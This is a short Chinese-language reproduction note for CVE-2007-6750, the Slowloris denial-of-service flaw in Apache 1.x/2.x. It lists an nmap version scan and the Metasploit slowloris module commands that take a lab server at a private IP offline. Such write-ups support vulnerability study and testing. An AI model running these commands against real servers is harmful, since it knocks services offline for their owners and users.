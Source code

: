（CVE-2007-6750）Apache ddos
============================

一、漏洞简介
------------

Apache
HTTP服务器1.x和2.x允许远程攻击者通过部分HTTP请求导致拒绝服务(守护进程中断)，如Slowloris所示，这与2.2.15之前版本中缺少mod\_ReqTimeout模块有关

二、漏洞影响
------------

Apache 1.x/2.x

三、复现过程
------------

nmap -sV -p80
192.168.146.175(用nmap查看Apache版本)(Apache2.2.3初步断定存在漏洞)![](resource/(CVE-2007-6750)Apacheddos/media/rId24.png)

接着访问网站查看是否正常(发现网站正常)![](resource/(CVE-2007-6750)Apacheddos/media/rId25.png)

    msfconsole(启动metasploit)

    use auxiliary/dos/http/slowloris(使用模块)

    set RHOST 192.168.146.175(设置目标IP)

    run(执行攻击)

![](resource/(CVE-2007-6750)Apacheddos/media/rId26.png)

再访问网站查看是否正常(发现网站瘫痪)

![](resource/(CVE-2007-6750)Apacheddos/media/rId27.png)

四、参考链接
------------

> https://www.jsxlo.com/cve-2007-6750/
